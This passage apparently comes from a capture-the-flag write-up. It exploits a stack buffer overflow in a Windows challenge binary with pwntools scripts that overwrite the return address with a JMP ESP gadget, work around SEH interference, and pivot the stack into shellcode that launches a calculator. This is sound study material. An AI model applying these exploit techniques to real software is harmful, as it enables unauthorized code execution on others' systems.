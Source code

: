We could simply add a `sub esp, 20` prior to running our shellcode to pop a calculator.

```py
from pwn import *

p = process('./window_of_opportunity.exe')

JMP_ESP = 0x00401257

shellcode = asm("sub esp, 20") + open('/root/shellcode', 'rb').read()

payload = b'A'*260
payload += p32(JMP_ESP)
payload += shellcode

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
p.close()
```

#### Problem 2

However if you run the current exploit, you will find that it still does not work and that the program jumps somewhere else midway through the shellcode.

This is due to the **Structure Exception Handler** security in windows. It works like a canary to a small extent, such that if we send an input too big, we will overwrite the handler and trigger the SEH security causing our program to crash even before we finish running our shellcode.

This means that we will have to find somewhere else to write our payload. If we recall, our shellcode is roughly 220 bytes long and our buffer is 260 bytes long. This means that we can actually write our shellcode in our buffer and pivot our stack to return there.

Let's rewrite our payload again.

```py
from pwn import *

p = process('./window_of_opportunity.exe')

JMP_ESP = 0x00401257

shellcode = asm("sub esp, 20") + open('/root/shellcode', 'rb').read()
shellcode2 = asm("""
sub esp, 264
jmp esp
""")

payload = shellcode + b"A"*(260-len(shellcode))
payload += p32(JMP_ESP)
payload += shellcode2

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
p.close()
```
